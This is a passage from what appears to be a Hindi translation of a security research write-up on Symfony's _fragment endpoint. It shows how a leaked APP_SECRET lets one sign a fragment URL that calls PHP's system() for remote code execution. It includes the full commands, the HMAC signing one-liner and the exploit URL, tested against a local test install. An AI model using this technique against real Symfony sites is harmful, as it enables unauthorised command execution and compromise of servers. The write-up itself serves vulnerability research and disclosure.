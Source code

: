 इसे परीक्षण करने के लिए, आइए एक परीक्षण वातावरण स्थापित करें, और गुप्त कोड को निकालें (इस मामले में, यादृच्छिक रूप से उत्पन्न किया गया)।
```
$ git clone https://github.com/symfony/skeleton.git
$ cd skeleton
$ composer install
$ sed -i -E 's/#(esi|fragment)/\1/g' config/packages/framework.yaml # Enable ESI/fragment
$ grep -F APP_SECRET .env # Find secret
APP_SECRET=50c8215b436ebfcc1d568effb624a40e
$ cd public
$ php -S 0:8000
```
अब, `http://localhost:8000/_fragment` पर जाने से `403` मिलता है। आइए अब एक मान्य हस्ताक्षर प्रदान करने का प्रयास करें:
```
$ php -r "echo(urlencode(base64_encode(hash_hmac('sha256', 'http://localhost:8000/_fragment', '50c8215b436ebfcc1d568effb624a40e', 1))) . PHP_EOL);"
lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm%2FcmFOh8%3D
```
```markdown
`http://localhost:8000/_fragment?_hash=lNweS5nNP8QCtMqyqrW8HIl4j9JXIfscGeRm%2FcmFOh8%3D` की जांच करके, हमें अब `404` स्टेटस कोड मिला है। हस्ताक्षर सही था, लेकिन हमने कोई भी अनुरोध विशेषता निर्दिष्ट नहीं की, इसलिए Symfony हमारे कंट्रोलर को नहीं पा सकता।

चूंकि हम किसी भी विधि को, किसी भी तर्क के साथ, कॉल कर सकते हैं, हम उदाहरण के लिए `system($command, $return_value)` चुन सकते हैं, और इस तरह से एक पेलोड प्रदान कर सकते हैं:
```
```
$ page="http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull"
$ php -r "echo(urlencode(base64_encode(hash_hmac('sha256', '$page', '50c8215b436ebfcc1d568effb624a40e', 1))) . PHP_EOL);"
GFhQ4Hr1LIA8mO1M%2FqSfwQaSM8xQj35vPhyrF3hvQyI%3D
```
हम अब एक्सप्लॉइट URL पर जा सकते हैं: `http://localhost:8000/_fragment?_path=_controller%3Dsystem%26command%3Did%26return_value%3Dnull&_hash=GFhQ4Hr1LIA8mO1M%2FqSfwQaSM8xQj35vPhyrF3hvQyI%3D`.

`500` त्रुटि के बावजूद, हम देख सकते हैं कि **हमारा कमांड निष्पादित हो गया**.

_RCE का उपयोग करते हुए फ्रैगमेंट_

![1](https://www.ambionics.io/images/symfony-secret-fragment/1.png)

## रहस्यों की खोज <a href="#finding-secrets" id="finding-secrets"></a>

फिर से: यह सब महत्वपूर्ण नहीं होता अगर रहस्य प्राप्त नहीं किए जा सकते। अक्सर, वे होते हैं। हम कई तरीके बताएंगे जिनसे कोड निष्पादन प्राप्त किया जा सकता है बिना किसी पूर्व ज्ञान के।

### कमजोरियों के माध्यम से <a href="#through-vulnerabilities" id="through-vulnerabilities"></a>

चलिए शुरुआत करते हैं स्पष्ट से: कम प्रभाव वाली कमजोरियों का उपयोग करके रहस्य प्राप्त करना।

